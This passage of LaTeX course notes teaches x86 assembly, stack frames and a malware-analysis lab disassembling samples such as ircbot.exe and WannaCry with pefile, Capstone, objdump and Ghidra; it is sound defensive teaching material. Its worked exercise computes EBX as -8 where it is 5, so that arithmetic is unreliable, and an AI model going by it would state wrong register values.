  
\includegraphics[width=.8\linewidth]{common_instructions3.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{common_instructions4.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{common_instructions5.png}
\end{figure}
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{common_instructions6.png}
\end{figure}

The \colorbox{green}{mov} $\circled{1}$ instruction actually \colorbox{yellow}{copies} the source operand into the destination

The \colorbox{green}{push} and \colorbox{green}{pop} instructions $\circled{2}$ have special significance with regard to stack
management and function calls

The \colorbox{green}{cmp} instruction $\circled{3}$ is important for implementing conditional branches:

It \colorbox{yellow}{subtracts the second operand from the first}, and it \colorbox{yellow}{sets status flags} in the rflags register based on the
outcome. Subsequent conditional branches check these status flags to decide whether the branch should be taken\\
zero flag (ZF), the sign flag (SF), and the overflow flag (OF)

The \colorbox{green}{test} instruction $\circled{4}$ is similar to cmp, but it sets status flags based on the \colorbox{yellow}{bitwise AND} of its
operands, rather than the subtraction

Conditional jump instructions $\circled{6}$ implement branches by working with instructions that set
status flags, like cmp or test

They jump to a specified address or label if the given condition holds or fall through to the next instruction if
the condition does not hold

For example, to jump to a program location named label if rax < rbx:
\begin{lstlisting}
  cmp rax , rbx
  jb label
\end{lstlisting}

To jump to label if rax is not zero, you can use the following:
\begin{lstlisting}
  test rax , rax
  jnz label
\end{lstlisting}

The lea instruction $\circled{7}$ (load effective address) computes the address resulting from a memory
operand (formatted as [base + index*scale + displacement]) and stores it in a register but does not
dereference the address

This is equivalent to the address-of operator (\&) in C/C++

For example, lea r12, [rip+0x2000] loads the address resulting from the expression
rip+0x2000 into the r12 register

\subsection{The Stack}

The stack is a memory region for storing data related to function calls\\
e.g., return addresses, function arguments, and local variables

On most operating systems, each thread has its own stack

The stack values are accessed in a last-in-first-out (LIFO) order;\\
we can write values by pushing them to the top of the stack and remove values by popping them from the
top

This makes sense for function calls because it matches the way you invoke and return from
functions: the last function you call returns first

Pushing the value f onto the stack and then popping it into rax;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{pushing_and_popping_stack.png}
\end{figure}

The stack starts at address 0x7fffffff80001 and initially contains five values: a-e

The rest of the stack contains uninitialized memory (marked with “?”)

On x86, the stack grows toward lower memory addresses, which means that newly pushed values are at lower
addresses than older values

The stack pointer register (rsp) always points to the top of the stack (the most recently pushed value):\\
initially, that’s e at address 0x7fffffff7fe0

Now, when we push a new value f, it ends up at the top of the stack:\\
rsp is decremented to point there

There are special instructions on x86 called push and pop that insert or
remove a value on the stack and automatically update rsp

Similarly, the x86 call instruction automatically pushes the return address
onto the stack, and ret pops the return address and returns there

Executing a pop copies the value at the top of the stack into the pop
operand and then increments rsp to point to the new top of the stack

for example, the pop rax copies f from the stack into rax and then updates
rsp to point to e, the new top of the stack

\colorbox{pink}{Popping a value from the stack does not remove it}:\\
it just copies the value and updates rsp

\colorbox{pink}{sensitive information might still be accessible later} unless explicitly clean it up

\subsection{Function Calls and Function Frames}

Example;
\begin{lstlisting}
  #include <stdio.h>
  #include <stdlib.h>

  int
  main(int argc, char *argv [ ] )
  {
    printf("%s=%s\n" ,
        argv[1], getenv(argv [ 1 ] ) ) ;
    return 0;
  }
\end{lstlisting}
becomes
\begin{lstlisting}[mathescape]
  Contents of section .rodata:
400630 01000200 $\circled{1}$ 25733d25 730a00 ....%s=%s..

Contents of section .text:
0000000000400566 <main>:
$\circled{2}$ 400566: push rbp
400567: mov rbp, rsp
$\circled{3}$ 40056a: sub rsp, 0x10
$\circled{4}$40056e: mov DWORD PTR [rbp-0x4], edi
400571: mov QWORD PTR [rbp-0x10], rsi
400575: mov rax, QWORD PTR [rbp-0x10]
400579: add rax, 0x8
40057d: mov rax, QWORD PTR [rax]
$\circled{5}$ 400580: mov rdi, rax
$\circled{6}$ 400583: call 400430 <getenv@plt>
$\circled{7}$ 400588: mov rdx, rax
40058b: mov rax, QWORD PTR [rbp-0x10]
40058f: add rax, 0x8
400593: mov rax, QWORD PTR [rax]
$\circled{8}$ 400596: mov rsi, rax
400599: mov edi, 0x400634
40059e: mov eax, 0x0
$\circled{9}$ 4005a3: call 400440 <printf@plt>
$\circled{10}$ 4005a8: mov eax, 0x0
4005ad: leave
4005ae: ret
\end{lstlisting}

Each function in a program has its own function frame (also called stack frame) on the stack\\
delimited by rbp (the base pointer) pointing to the base of that function frame and rsp pointing to the top

Function frames are used to store the function’s stack-based data

Note that with certain optimizations, compilers may omit the base pointer\\
• making all stack accesses relative to rsp\\
• use rbp as an extra general-purpose register

Example of x86 function frames on a Linux system;
\begin{figure}[H]
  \centering
  
\includegraphics[width=.8\linewidth]{function_frames_linux_system.png}
\end{figure}

\subsection{Prologues, Local Variables, and Reading Arguments}
The first thing main does is run a prologue that sets up its frame

The prologue starts by saving the contents of rbp on the stack and then copying rsp into rbp $\circled{2}$:\\
• save the start address of the previous function frame and\\
• create a fresh frame at the top of the stack

As the sequence push rbp; mov rbp, rsp is so common, x86 has a shorthand instruction called
enter

After setting up a frame, main decrements rsp by 0x10 bytes to reserve room for two 8-byte local
variables on the stack $\circled{3}$\\
• storage for argc and argv\\

On x86-64 Linux systems, the first six arguments to a function are passed in rdi, rsi, rdx, rcx, r8, and
r9

If more than six arguments or if an argument doesn’t fit in a register, they are pushed onto the
stack

\begin{lstlisting}
  mov rdi, param1
  mov rsi, param2
  mov rdx, param3
  mov rcx, param4
  mov r8, param5
  mov r9, param6
  push param9
  push param8
  push param7
\end{lstlisting}

Some calling conventions (such as cdecl) pass all arguments on the stack, while other calling
conventions (such as fastcall) pass some arguments in registers

After reserving room on the stack, main copies argc (stored in rdi) into one of the local
variables and argv (stored in rsi) into the other local variable $\circled{4}$

The left side of the previous figure shows the layout of the stack after main’s prologue is done

Please note that the red zone at the beginning of the frame might be used by leaf functions
(if less than 128 bytes) to reduce execution time

After the prologue, main loads argv[1] into rax:\\
• it first loads the address of argv[0] and then add 8 bytes (the size of a pointer)\\
• then dereferences the resulting pointer to argv[1]

main copies this pointer into rdi to serve as the argument for getenv $\circled{5}$, which is then called $\circled{6}$

call automatically pushes the return address onto the stack, where getenv can find it when it
returns

The centre part of the previous figure shows the stack layout after getenv has completed
its prologue

After getenv completes, it saves its return value in rax and cleans up its local variables
from the stack by incrementing rsp

It then pops the saved base pointer from the stack into rbp, restoring main’s function frame

At this point, the top of the stack is the saved return address, which is 0x400588 in main
in this case

Finally, getenv executes a ret instruction that pops the return address from the stack and returns
there, restoring control to main

The right side of the previous figure shows the stack layout just after getenv returns

The main function copies the return value (a pointer to the requested environment string) into
rdx to serve as the third argument of the printf call $\circled{7}$

main loads argv[1] and stores it in rsi as the second argument for printf $\circled{8}$

rax is set to zero before calling printf as it is a variadic function:

rax specifies the number of floating-point arguments passed in via vector registers

After preparing the arguments, main calls printf $\circled{9}$, pushing the return address for printf

After printf completes, main prepares its own return value (the exit status) by zeroing out
the rax register $\circled{10}$

Then, it executes a leave instruction (shorthand for mov rsp, rbp; pop rbp:\\
• standard function epilogue (opposite of the prologue)\\
• cleans up the frame by pointing rsp to the frame base (where the saved rbp is) and restoring the previous
frame's rbp

main executes a ret instruction:\\
• pops the saved return address from the top of the stack and returns there\\
• the program ends

\subsection{Conditional Branches}

Example;
\begin{lstlisting}
  #include <stdio.h>
  int
  main(int argc, char *argv [ ] )
  {
    if (argc > 5 ) {
    printf("argc > 5\n");
  } else {
    printf("argc <= 5\n");
  }
    return 0;
  }
\end{lstlisting}
Becomes;
\begin{lstlisting}[mathescape]
  Contents of section .rodata:
  4005e0 01000200 $\circled{1}$ 61726763 ....argc
  4005e8 203e2035 00 $\circled{2}$ 617267 > 5.arg
  4005f0 63203c3d 203500 c <= 5.
  Contents of section .text :
  0000000000400526 <main> :
  400526: push rbp
  400527: mov rbp, rsp
  40052a: sub rsp, 0x10
  40052e: mov DWORD PTR [rbp-0x4], edi
  400531: mov QWORD PTR [rbp-0x10], rsi
  $\circled{3}$ 400535: cmp DWORD PTR [rbp-0x4], 0x5
  $\circled{4}$ 400539: jle 400547 <main+0x21>
  40053b: mov edi, 0x4005e4
  400540: call 400400 <puts@plt>
  $\circled{5}$ 400545: jmp 400551 <main+0x2b>
  400547: mov edi, 0x4005ed
  40054c: call 400400 <puts@plt>
  400551: mov eax, 0x0
  400556: leave
  400557: ret
\end{lstlisting}
The compiler stores the printf format strings in .rodata section $\circled{1}$ $\circled{2}$

main function starts with a prologue and copies argc and argv into local variables

The conditional branch starts with the cmp instruction $\circled{3}$ :\\
• compares the local variable containing argc to the immediate value 0x5

• Followed by jle that jumps to address 0x400547 if argc is less than or equal to 0x5 $\circled{4}$(the else
branch):\\
• a call to puts that prints the string argc <= 5\\
• followed by main’s epilogue and ret instruction

If argc is greater than 0x5, the jle is not taken but falls through to the next instruction sequence at
address 0x40053b (the if branch):\\
• it calls puts to print the string argc > 5\\
• then jumps to main’s epilogue at address 0x400551 $\circled{5}$\\
• that this last jmp is necessary to jump over the code for the else branch at address 0x400547

\subsection{Loops}
Example;
\begin{lstlisting}
  #include <stdio.h>

  int
  main(int argc, char *argv [ ])
  {
  while (argc > 0 ) {
    printf("%s \n",
    argv[(unsigned) --argc]);
  }
    return 0;
  }
\end{lstlisting}
Becomes;
\begin{lstlisting}
  0000000000400526 <main>:
400526: push rbp
400527: mov rbp, rsp
40052a: sub rsp, 0x10
40052e: mov DWORD PTR [rbp-0x4], edi
400531: mov QWORD PTR [rbp-0x10], rsi
$\circled{1}$ 400535: jmp 40055a <main+0x34>
400537: sub DWORD PTR [rbp-0x4], 0x1
40053b: mov eax, DWORD PTR [rbp-0x4]
40053e: mov eax, eax
400540: lea rdx, [rax*8+0x0]
400548: mov rax, QWORD PTR [rbp-0x10]
40054c: add rax, rdx
40054f: mov rax, QWORD PTR [rax]
400552: mov rdi, rax
400555: call 400400 <puts@plt>
$\circled{2}$ 40055a: cmp DWORD PTR [rbp-0x4], 0x0
$\circled{3}$ 40055e: jg 400537 <main+0x11>
400560: mov eax, 0x0
400565: leave
400566: ret
\end{lstlisting}

The compiler chose to place the code that checks the loop condition at the end of
the loop

The loop begins by jumping to address 0x40055a where the loop condition is
checked $\circled{1}$:\\
• a cmp instruction that compares argc to the value zero $\circled{2}$\\
• if argc is greater than zero, the code jumps to address 0x400537 where the loop body begins $\circled{3}$\\
• it decrements argc, prints the next string from argv, and then ends up at the loop condition check again\\
• the loop continues until argc is zero

at this point the jg instruction in the loop condition check falls through into main’s epilogue\\
maincleans up its stack frame and returns

\chapter{Lab 2 - Disassembling Binaries}

Static analysis is often not enough to
completely understand what a piece of malware is doing; hence, we need to use
other tools which can give us a deeper view on the sample

One of these tools is the disassembler. By means of disassembly we can
extract (often with some approximation) x86 assembly instructions from a mal-
ware binary. Reading such assembly instructions in the order in which they are
executed will allow us to understand how the program behaves without running
it.

While we still cannot perfectly disassembly every malware, since the author
can hinder this process by obfuscating the code or by using other protection
techniques, the obtained translation can still be very useful in most cases.

\section{Registers}
Registers are small data storage units located on the CPU. Information like the
status of the running program (the address of the next instruction to execute,
for example), or math operands are stored there, so the CPU can quickly access
them.

General-purpose registers are used to store values that will be used for arith-
metical calculations, bit shifts, conditional operations, and so on. Data con-
tained in such registers often get written to primary memory after the program
has finished its operations on them.

On 32-bit system, each register can contain
32 bits of information, however a program could decide to make use of only a
part of the register, for example only 8 or 16 bits, de facto truncating some bits.

Other very important registers are the ones that control the program flow.

For example, the Extended Stack Pointer (ESP) register points at the top of the
stack, whilst the Extended Base Pointer (EBP) register points to the bottom of
the stack

The Extended Instruction Pointer (EIP) register points instead at the in-
struction that has to be executed next. This register is called Program Counter
in some architectures, and while it isn’t directly mentioned in assembly code,
during dynamic analysis it might turn useful to edit it by means of a debug-
ger, for example to execute a certain function we want to analyze, or to skip a
function that hinders our analysis.

Following the same principle, when there is a buffer overflow vulnerability
in a binary, often this is exploited by the attacker in order to write over the
EIP register and alter the flow of the application – this usually results in the
attacker taking control of the process and being able to execute arbitrary code
as we will see in a later lab.

\section{Operations}
Te most common instructions we will find when disassembling a binary.

Arithmetic:
\begin{itemize}
  \item \lstinline|add reg, n| – Adds n to the register reg, overwriting it with the result
  \item \lstinline|sub reg, n| – Subtracts n to the register reg, overwriting it with the result
  \item \lstinline|inc reg| – Adds 1 to the register reg
  \item \lstinline|dec reg| – Subtracts 1 from the register reg
\end{itemize}

Movement:
\begin{itemize}
  \item \lstinline|mov reg2, reg1| – copies the content of the register reg1 into the register reg2
  \item \lstinline|mov reg, 0xaddress| – copies what is stored at 0xaddress (not the address itself) into the register reg
  \item \lstinline|mov reg, n| – copies n into the register reg
  \item \lstinline|mov 0xaddress, reg| – copies the content of the register reg into the
        memory address 0xaddress
  \item \lstinline|lea reg2, [reg1 +/* x]| – copies the result in the second operand
        in reg2. \lstinline|LEA| is really versatile and can perform multiple operations
        in the second operand, with both registers and numbers. This in-
        struction is often used to optimize assembly code by the compiler.

        For example, \lstinline|LEA EAX, [EBX + ECX]| would add the contents of EBX
        and ECX, storing the result in EAX without altering any of the other
        registers
\end{itemize}

Control Flow:
\begin{itemize}
  \item \lstinline|call 0xaddress| – makes a push operation on the stack, inserting
        0xaddress, then immediately starts the called function, replacing the
        contents of EIP with 0xaddress
  \item \lstinline|ret| – makes a pop operation on the stack, and execution of the
        previous called function resumes
  \item \lstinline|jmp 0xaddress| – unconditionally jumps to 0xaddress and resume
        execution of the program from there
  \item \lstinline|cmp reg/n/0xaddress, reg/n/0xaddress| – compares the first operand
        with the second, and stores the result in a special register called
        EFLAGS
  \item Finally, based on the result of the above compare, we can make
        the program do some conditional jumps. For example, we have
        \lstinline|je 0xaddress| (jump if equal), \lstinline|jne 0xaddress| (jump if NOT equal),
        \lstinline|jge 0xaddress| (jump if the second value is greater than or equal
        to the first value), \lstinline|jle 0xaddress| (jump if less or equal) and many
        more
\end{itemize}

\section{Exercise 1}
\begin{lstlisting}
  0x000000: mov ebx, 15
  0x000002: mov eax, 2
  0x000004: add eax, ebx
  0x000006: sub ebx, 10
  0x000008: cmp ebx, eax
  0x00000b: jge 0x000012
  0x00000d: cmp eax, 0
  0x000010: jle 0x000004
  0x000012: inc ebx
  0x000014: dec eax
\end{lstlisting}

\begin{itemize}
  \item Register EBX has the value 15
  \item Register EAX has value 2
  \item EAX is set to EAX + EBX -\textgreater EAX = 17
  \item EBX - 10 -\textgreater EBX = -8
  \item compares EBX and EAX
  \item jumps to 0x000012 if EAX \textgreater= EBX -\textgreater True
  \item add 1 to EBX -\textgreater EBX = -7
  \item subtract 1 from EAX -\textgreater EACX = 16
\end{itemize}

0x means the address is in hexadecimal

\section{Practical Disassembly}
\subsection{Using Pefile and Capstone}
Pefile is a tool that allows us to read the content of PE files, as the name
suggests. Information extracted from any PE file is easily accessible because
Pefile stores it into different object properties.

Capstone is a lightweight disassembler which can be used in lots of different languages such as Ruby, C\#,
Java, PHP, and many more.

Combining these two tools within a single Python script we can obtain a
fully functional disassembler in just a few lines of code

\begin{lstlisting}[language=python]
  #!/usr/bin/python

import pefile
from capstone import *

#loads the target PE file
pe = pefile.PE("./ircbot.exe")

#gets the address of the entry point (relative to the image base address) from the "optional header"
entrypoint = pe.OPTIONAL_HEADER.AddressOfEntryPoint

#calculates the absolute address for the entry point
entrypoint_address = entrypoint + pe.OPTIONAL_HEADER.ImageBase

#gets the binary code for the PE file, from the entrypoint we take 100 bytes.
#We can set larger or smaller sizes.
binary_code = pe.get_memory_mapped_image()[entrypoint:entrypoint+100]

#initializes the disassembler in order to disassemble x86 binary code, with 32 bit words
disassembler = Cs(CS_ARCH_X86, CS_MODE_32)

for instruction in disassembler.disasm(binary_code, entrypoint_address):

  #disassembles every instruction contained in binary_code, starting from entrypoint_address
  print(f"{instruction.mnemonic}\t{instruction.op_str}")

  #for each instruction, write the operation (instruction.mnemonic),
  # for example "push", a tabulation character (\t), and the argument of the instruction (instruction.op_str), for example "0x2832c4"
\end{lstlisting}

Running the program produces;
\begin{lstlisting}
  dec#tecx
  add#tbyte ptr [ebx + 0x494634] , ah
  mov#teax, dword ptr [0x494634]
  shr#teax, 8
  and#teax, 0xff
  mov#tdword ptr [0x494640], eax
  mov#tecx, dword ptr [0x494634]
  and#tecx, 0xff
  mov#tdword ptr [0x49463c], ecx
  mov#tedx, dword ptr [0x49463c]
  shl#tedx, 8
  add#tedx, dword ptr [0x494640]
  mov#tdword ptr [0x494638], edx
  mov#teax, dword ptr [0x494634]
  shr#teax, 0x10
  and#teax, 0xffff
  mov#tdword ptr [0x494634], eax
  push#t0
  call#t0x414190
  add#tesp, 4
  test#teax, eax
  jne#t0x412224
  push#t0x1c
\end{lstlisting}

\subsection{objdump}
We can also use objdump

The -d option stands for ”disassembler” and returns assembly code for all
executable sections.

The -z option stands for ”zero”, and includes zero bytes in the disassembly
output.

Just like with Capstone, you can specify the addresses you want to disassemble
by using the --start-address and --stop-address options.

\lstinline|objdump -d --start-address=0x4121ba --stop-address=0x41221c ./ircbot.exe|

\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2_objdump.png}
\end{figure}


\subsection{Disassembling using Ghidra}
The two files, WannaCry.exe and WannaCry2.exe  represent different versions
of the WannaCry ransomeware.

\subsubsection{Reverse Engineering with Ghidra}
When importing WannaCry.exe into ghidra, you get the following summary;
\begin{figure}[H]
  \centering
  
\includegraphics[width=\linewidth]{lab2_ghidraSummary.png}
\end{figure}

After analysing using the \\
WindowsPE x86 Propagate External Parameters\\
Variadic Function Signature Override (Prototype)\\
options, the symbol tree displays an export folder;

\begin{figure}[H]
  \centering
  
\includegraphics[width=.5\linewidth]{lab2 ghidra tree.png}
\end{figure}

The Exports folder show all exported functions.This is nor-
mally populated with something other than entry in a DLL.
Exports display the APIs (functions) offered by the pro-
gram.

It is normal for DLLs to have exported functions,
but executables generally do not have exports.

The export
shown in this case is the entry point (the address of the first
instruction) of the program.

\begin{figure}[H]
  \centering
  
\includegraphics[width=.5\linewidth]{lab2 ghidra imports.png}
\end{figure}

The Imports display the APIs (functions) used by the pro-
gram that are contained in shared libraries (DLLs).
In
other words, the list reflects external dependencies.

The
Imports tab can fuel theories about potential code func-
tionality, which can provide useful directions to the analysis
process.

\begin{figure}[H]
  \centering
